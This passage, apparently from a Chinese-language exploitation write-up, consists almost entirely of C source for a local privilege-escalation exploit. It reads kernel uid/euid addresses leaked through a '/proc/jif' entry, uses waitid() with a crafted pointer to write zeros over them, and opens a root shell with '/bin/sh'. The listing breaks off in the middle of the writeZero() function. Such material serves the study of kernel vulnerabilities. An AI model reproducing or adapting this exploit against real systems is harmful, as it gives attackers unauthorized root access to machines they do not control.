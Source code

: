 然后利用程序如下：

```c
#include <sys/wait.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <asm/unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <fcntl.h>


void writeZero(void *addr);//write zero to addr
void leak_uid_euid_addr();//leak uid,euid address
int main(void){
    void *uidAddr = NULL,*euidAddr = NULL;
    leak_uid_euid_addr();

    printf("uid  addr:");
    scanf("%p",&uidAddr);

    printf("euid addr:");
    scanf("%p",&euidAddr);

    writeZero(uidAddr);
    writeZero(euidAddr);

    if(getuid() == 0 && geteuid() == 0){
        printf("exploit success!\n");
        system("/bin/sh");
    }
    else{
        printf("exploit fauled!\n");
    }   
    
    return 0;
}
void leak_uid_euid_addr(){//leak uid,euid address
    int fd = open("/proc/jif",O_RDONLY);
    if(fd == -1){
        exit(-1);
    }
    close(fd);
}

void writeZero(void *addr){//write zero to addr
    void *ptr = (void*)((char*)addr-4);

    int pid = fork();

    if(pid > 0){ //parent
        int retval = 0;

        retval = waitid(P_PID,pid,ptr,WEXITED|WSTOPPED|WCONTINUED);

        if(retval != -1){
            printf("write %p success\n",addr);
        }
        else{
            printf("write %p failed,strerror:%s\n",addr,strerror(errno));
            exit(-1);
```